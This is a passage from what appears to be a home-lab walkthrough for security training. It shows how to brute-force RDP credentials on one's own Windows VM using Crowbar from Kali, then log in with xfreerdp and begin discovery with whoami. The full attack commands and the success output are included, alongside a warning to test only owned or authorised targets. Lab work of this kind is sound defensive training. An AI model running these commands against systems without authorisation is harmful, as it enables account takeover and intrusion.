 Next we're going to install a tool call 'Crowbar":
```
sudo apt install crowbar
```
Once installed we can see all of Crowbar's options with `crowbar -h`.  


**Phase 1 - Initial Attack**

Create a text file called target.txt and enter in your Windows VM IP address:
```
echo <Your Windows VM IP> > target.txt && echo Administrator >> target.txt
```
**PLEASE NOTE** - Please only use crowbar for targets that you own (Like in this lab) or for targets you have explixit permission to do so on.

We'll use the following command to execute Crowbar.
```
crowbar -b rdp -u Administrator -C mydfir-wordlist.txt -s <Your Windows VM IP>/32
```
- **-b**: is brute force with RDP.
- **-u**: is for user.  In our case Administrator.
- **-C**: is for the wordlist file we want crowbar to use which is mydfir-wordlist.txt.
- **-s**: is for the server we're pointing it to which is our Windows Server VM.

We also added a **CIDR notation** or **slash notation** of /32 which specifies the size of the subnet we want to scan.  More info aboiut this can be found below.

[Amazon Web Services - What is CIDR?](https://aws.amazon.com/what-is/cidr/)

```
──(kali㉿kali)-[~]
└─$ crowbar -b rdp -u Administrator -C mydfir-wordlist.txt -s <Your Win VM IP>/32
2024-09-23 14:12:23 START
2024-09-23 14:12:23 Crowbar v0.4.2
2024-09-23 14:12:23 Trying <Your Win VM IP>:3389
2024-09-23 14:12:33 RDP-SUCCESS : <Your Win VM IP>:3389 - Administrator:<YOUR WIN VM password>
2024-09-23 14:12:33 STOP
```

Now that we have the credentials as the attacker we can use a tool called "xfreerdp" to connect to the server.
```
xfreerdp /u:Administrator /p:<Your WIN password> /v:<Your WIN IP>:3389
```
It will ask you if you trust the certificate.  We'll enter "Y".  And just like they say in the movies "I'm in!".

![Kali xfreerdp session](https://github.com/user-attachments/assets/ad9e59b6-6720-4544-8fb1-7790d95abbc0)


**Phase 2 - Discovery**

We can now open a command prompt (click start and start typing 'command') and we can run the commands Phase 2 commands from our attack diagram.

**whoami**
```
mydfir-win-(Your handle)\administrator
```
